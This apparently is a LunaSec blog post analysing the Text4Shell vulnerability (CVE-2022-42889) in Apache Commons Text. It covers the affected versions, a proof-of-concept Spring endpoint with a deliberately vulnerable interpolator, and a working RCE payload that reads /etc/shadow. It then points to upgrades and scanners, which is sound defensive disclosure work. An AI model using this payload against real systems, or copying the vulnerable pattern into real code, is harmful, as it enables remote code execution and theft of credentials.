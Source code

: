 ```yaml
---
title: "Text4Shell: A Vulnerability in Java library Apache Commons Text (CVE-2022-42889, Act4Shell)"
description: "LunaSec Security Researchers provide a detailed analysis of the vulnerability in Apache Commons Text library (CVE-2022-42889, aka Text4Shell or Act4Shell) and how it can be exploited to execute arbitrary code on the victim's machine."
slug: text4shell-java-rce-cve-2022-42889
date: 2022-10-19T23:30:00.000Z
keywords: [cybersecurity, strategy, java, action, guide, exploit]
tags: [security, appsec, devsecops, cicd, sdlc, guides]
authors: [free]
---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

<head>
  <meta property="article:modified_time" content="2022-10-20T00:01:00.000Z" />
</head>

![Text4Shell Logo](https://www.lunasec.io/docs/img/blog/text4shell.png)

## What is Text4Shell?

Text4Shell is a vulnerability in the Java library Apache Commons Text. This vulnerability, in specific conditions,
allows an attacker to execute arbitrary code on the victim's machine (Remote Code Execution or "RCE").
The vulnerability was discovered by [Alvaro Muñoz (aka pwntester)](https://twitter.com/pwntester) and
[announced publicly](https://lists.apache.org/thread/n2bd4vdsgkqh2tm14l1wyc3jyol7s1om) on October 13th

Text4Shell was officially assigned the [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889) identifier.

<!--truncate-->

Note: While the vulnerability is also known as "Act4Shell", we'll be referring to it as "Text4Shell" in this article.

## Who is impacted?

Applications that use the Apache Commons Text library (or that depend on libraries using it) are impacted.

While the name Text4Shell may suggest that this issue is as widespread
[Log4Shell vulnerability](https://lunasec.io/docs/blog/log4shell-cve-2021-44228/), that is fortunately not the case.

Text4Shell is exploitation is much closer to [Spring4Shell](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/)
in that successful attack requires a specific, non-default set of conditions for it to be remotely exploitable.

We'll go into more detail about that in the next section, but we believe that the impact of this vulnerability
is quite limited and that it is unlikely that many applications are impacted. If you'd like to check if your application
is impacted, you can [scan your code with LunaTrace](https://lunatrace.lunasec.io/) for free. We'll be providing
additional resources at the bottom of this article as well.

### Exploit Conditions

- Apache Commons Text version 1.5 through 1.9 are vulnerable
    ([version 1.10](https://commons.apache.org/proper/commons-text/changes-report.html#a1.10.0) includes a fix),
- The application must use the `StringSubstitutor` interpolator in a vulnerable configuration (see POC code below),
- The application must accept arbitrary, attacker controlled input for exploitation to be possible,
- All versions of the JDK are vulnerable (early reports suggest JDK versions 15+ are safe, but new POCs have been
    released that work on JDK 15+).

### Proof-of-Concept Code

There are a few excellent resources available for this vulnerability already, including the original
[GitHub Advisory](https://securitylab.github.com/advisories/GHSL-2022-018_Apache_Commons_Text/) and a
[Docker POC on GitHub](https://github.com/karthikuj/cve-2022-42889-text4shell-docker), and this post will just be
consolidating the information in those resources together.

The following code snippet is a proof-of-concept that demonstrates how the vulnerability can be exploited.

```typescript
/**
* Example of how to exploit Text4Shell vulnerability (CVE-2022-42889).
* A simple Java web server application using the Spring framework based on:
* https://github.com/karthikuj/cve-2022-42889-text4shell-docker
*/

// Import the vulnerable class from Apache Commons Text
import org.apache.commons.text.StringSubstitutor;

import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
@RequestMapping("text4shell")
public class ExampleVulnerableText4ShellController {

  @RequestMapping(value = "/vulnerable", method = RequestMethod.GET)
  @ResponseBody
  public String vulnerable(
    // The default value of this parameter is used to demonstrate the vulnerability
    @RequestParam(defaultValue="${script:javascript:java.lang.Runtime.getRuntime().exec('cat /etc/shadow')}")
    String requestInput
  ) {
    // This is the vulnerable method imported from Apache Commons Text.
    StringSubstitutor interpolator = new StringSubstitutor();

    // This line triggers the exploit
    return interpolator.replace(requestInput);
  }
}
```

### Exploit Steps

The following steps demonstrate how the vulnerability can be exploited:

1. The attacker sends a request to the vulnerable endpoint with the following payload:
    `http://localhost:8080/vulnerable?requestInput=${script:javascript:java.lang.Runtime.getRuntime().exec('cat /etc/shadow')}`
2. The request parameter, `reqestInput`, `${script:javascript:java.lang.Runtime.getRuntime().exec('cat /etc/shadow')}`, is passed to the
    `StringSubstitutor` class, which is vulnerable to the exploit.
3. The `StringSubstitutor` class executes the payload, which is `cat /etc/shadow`, and returns the contents of the `/etc/shadow` file.
4. At this point, the attacker can execute any command they want here, not just `cat /etc/shadow`. This is just an example
    of how the exploit can be used to execute arbitrary code on the victim's machine.

## How to fix Text4Shell

The simplest fix is to upgrade to Apache Commons Text
[version 1.10](https://github.com/karthikuj/cve-2022-42889-text4shell-docker) or later.

If you're unable to upgrade, please
[join us on Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-178lvngk1-SHS6bMkQS71YWtCne2XWhA), where
we can help you find a workaround.

For help determining if you're affected by this vulnerability, or to determine if you're using Vendor software that may
be vulnerable, please see the resources below to help you scan for Text4Shell across your stack.

### Additional Resources

- [JFrog Text4Shell CLI Scanner](https://github.com/jfrog/text4shell-tools)
- [Grype](https://github.com/anchore/grype)
- [LunaTrace by LunaSec](https://lunatrace.lunasec.io/)

## Stay Informed

If you'd like to stay up to date on the latest vulnerabilities, you can join our mailing list below or follow us on
[Twitter](https://twitter.com/lunasecio).


<ContactForm/>

### Have Questions?

You're welcome to reach out to us if you need help by
[joining our Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-178lvngk1-SHS6bMkQS71YWtCne2XWhA) or by
[emailing us](mailto:contact+text4shell@lunasec.io). You can also
[edit this post on GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2022-10-19-text4shell-cve-2022-42889.mdx)
to suggest changes.

## References

First of all, we just want to say thank you to [Alvaro Muñoz (aka pwntester)](https://twitter.com/pwntester) and
the Apache Commons Text team for their work on resolving this security issue.

- [Apache Commons Text Security Advisory](https://commons.apache.org/proper/commons-text/security.html)
- [Rapid7 Writeup](https://www.rapid7.com/blog/post/2022/10/17/cve-2022-42889-keep-calm-and-stop-saying-4shell/?utm_campaign=sm-blog&utm_source=lunasec)
- [TheRecord Writeup](https://therecord.media/experts-downplay-reach-of-apache-bug-text4shell/)

### Updates

1. 2022-10-19 @ 4pm PDT: Initial post.
2. 2022-10-19 @ 4:30pm PDT: Fixed typos and added more resources.
3. 2022-10-19 @ 5pm PDT: Adding logo.
